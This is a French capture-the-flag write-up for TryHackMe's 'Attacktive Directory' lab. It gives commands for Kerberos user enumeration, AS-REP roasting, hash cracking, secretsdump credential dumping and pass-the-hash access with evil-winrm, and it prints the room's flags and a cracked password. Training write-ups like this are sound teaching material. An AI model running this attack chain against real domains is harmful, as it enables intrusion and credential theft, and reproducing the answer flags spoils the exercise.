 # AttacktiveDirect

## Etape 1. SETUP

Télécharger les différents tools : 

Impacket :

    git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
    pip3 install -r /opt/impacket/requirements.txt
    cd /opt/impacket/ && python3 ./setup.py install

Bloodhound and neo4j:

    apt install bloodhound neo4j

## Etape 2. WELCOME TO ATTACKTIVE DIRECTORY

Nmap scan 

![](image/nmap.jpg)

    nmap -sV -sC -o ad.nmap 10.10.159.18

![](image/enum4linux.jpg)

    enum4linux -M [target_ip]

![](image/NetBIOS%20rep.jpg)

![](image/NetBIOS-Domain.jpg)

![](image/TLDRep.jpg)

![](image/TLD.jpg)

# Etape 3.ENUMERATION ENUMERATING USERS VIA KERBEROS:

Téléchargement de Kerbrute :

    https://github.com/ropnop/kerbrute/releases

Téléchargement du la Liste de Mdp et la liste d'Username

    # Username List
    wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

    # Password List
    wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt


On lance kerbrute pour énumérer la machine

![](image/KerbruteTerm.jpg)

    ./kerbrute userenum --dc=10.10.159.18 -d=spookysec.local. ../../THM/AD/userList.txt

![](image/KerbruteAns.jpg)

## Etape4.EXPLOITATION ABUSING KERBEROS

On a trouvé deux users non commun "svc-admin" et "backup"
On va utiliser l'outil "GetNPUsers.py"

    GetNPUsers.py -no-pass -dc-ip [Target_IP] spookysec.local/svc-admin
![](image/GetNPUusersLaunch.jpg)

![](image/GetNPUusersHash.jpg)

>Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

Rapide recherche sur google et on sait que l'on doit utiliser le mode 18200 pour craquer le hash

![](image/hashcatHash.jpg)

On va donc utiliser hashcat pour craquer le mot de passe de "svc-admin"

![](image/crackhash.jpg)

    mot de passe : management2005


![](image/repEtape4.jpg)

## Etape 5. BACK TO THE BASICS

On peut maintenant essayer d'énumérer les dossiers partagés SMB en utilisant nos nouveaux identifiants

![](image/smbclient1.jpg)

On parcour les dossiers et on fini par trouver un dossier dans lequel on peut se connecter.

On y trouve même un fichier intéressant 

![](image/smbclient2.jpg)

On le télécharge 

![](image/smbclient3.jpg)

C'est un fichier encodé en base64, on a juste à le décoder

![](image/smbclient4.jpg)

![](image/smbRep.jpg)

# Etape 6. ELEVATING PRIVILEGES WITHIN THE DOMAIN

L'obtention des informations d'identification de la sauvegarde nous permet d'avoir plus de privilèges en tant que compte de sauvegarde dans un Domain Controller (DC). Ceci est dû au fait que toute modification de l'Active Directory (AD) reflétera ces modifications dans ce compte de sauvegarde. Par conséquent, nous pouvons obtenir les hashs des mots de passe de chaque utilisateur. Pour ce faire, nous pouvons utiliser secretsdump.py d'Impacket

![](image/secretDumpHash.jpg)

On va maintenant installer evil-winrm afin d'accéder au système via le port 5985

    sudo gem install evil-winrm

![](image/Rep.jpg)

## Etape 7. FLAG SUBMISSION PANEL 

On va lancer evil-winrm afin d'obtenir un PowerShell en Administrateur 

    evil-winrm -i [Target_IP] -u Administrator -H [Administrator_Hash]
![](image/Evil-winrm%20Launch.jpg)

On recherche 3 flag 

1. svc-admin
2. backup
3. Administrator

![](image/rootflag.jpg)


![](image/userflag.jpg)


![](image/backupflag.jpg)


    Administrator : TryHackMe{4ctiveD1rectoryM4st3r}

    User : TryHackMe{K3rb3r0s_Pr3_4uth} 
    
    Backup : TryHackMe{B4ckM3UpSc0tty!}




